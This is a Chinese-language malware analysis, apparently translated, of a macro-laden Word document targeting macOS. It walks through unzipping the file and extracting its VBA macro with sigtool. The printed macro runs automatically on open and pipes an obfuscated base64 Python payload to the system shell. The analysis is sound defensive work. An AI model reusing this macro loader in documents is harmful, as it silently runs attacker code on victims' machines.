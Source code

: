 当你试图用Word打开该文档时（一个隔离的MacOS虚拟机内）会触发一个警告:“此文件包含宏”的警告： 

[![](https://p2.ssl.qhimg.com/t01f47e97e7e4972a23.jpg)](https://p2.ssl.qhimg.com/t01f47e97e7e4972a23.jpg)

<br>

**分析 **

让我们提取嵌入的宏来分析文档中的恶意逻辑。我们可以使用的ClamAV的sigtool提取嵌入的宏。

首先，如在线帮助所说的，如今的Word文件实际上是“存储在Zip文件的XML文件”以及“VBA宏通常存储在Zip压缩文件内的二进制OLE文件，名为vbaProject.bin。 所以，先解压（'unzip'）文档： 



```
$ unzip "U.S. Allies and Rivals Digest Trump鈥檚 Victory - Carnegie Endowment for International Peace.docm"
  inflating: [Content_Types].xml
  inflating: _rels/.rels
  inflating: word/_rels/document.xml.rels
  inflating: word/document.xml
  inflating: word/theme/theme1.xml
  inflating: word/vbaProject.bin
  inflating: word/_rels/vbaProject.bin.rels
  inflating: word/vbaData.xml
  inflating: word/settings.xml
  inflating: word/stylesWithEffects.xml
  inflating: word/styles.xml
  inflating: docProps/core.xml
  inflating: word/fontTable.xml
  inflating: word/webSettings.xml
  inflating: docProps/app.xml
```

然后将word/vbaProject.bin文件传递给sigtool命令，并使用–vba标志提取嵌入的宏：



```
$sigtool --vba word/vbaProject.bin 
-------------- start of code ------------------
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
...
Sub autoopen()
Fisher
End Sub
....
Public Declare Function system Lib "libc.dylib" (ByVal command As String) As Long
Public Sub Fisher()
Dim result As Long
Dim cmd As String
cmd = "ZFhGcHJ2c2dNQlNJeVBmPSdhdGZNelpPcVZMYmNqJwppbXBvcnQgc3"
cmd = cmd + "NsOwppZiBoYXNhdHRyKHNzbCwgJ19jcmVhdGVfdW52ZXJpZm"
cmd = cmd + "llZF9jb250ZXh0Jyk6c3NsLl9jcmVhdGVfZGVmYXVsdF9odH"
cmd = cmd + "Rwc19jb250ZXh0ID0gc3NsLl9jcmVhdGVfdW52ZXJpZmllZF"
cmd = cmd + "9jb250ZXh0OwppbXBvcnQgc3lzLCB1cmxsaWIyO2ltcG9ydC"
....
cmd = cmd + "BlbmQoY2hyKG9yZChjaGFyKV5TWyhTW2ldK1Nbal0pJTI1Nl"
cmd = cmd + "0pKQpleGVjKCcnLmpvaW4ob3V0KSk="
result = system("echo ""import sys,base64;exec(base64.b64decode("" " &amp; cmd &amp; " ""));"" | python &amp;")
End Sub
```
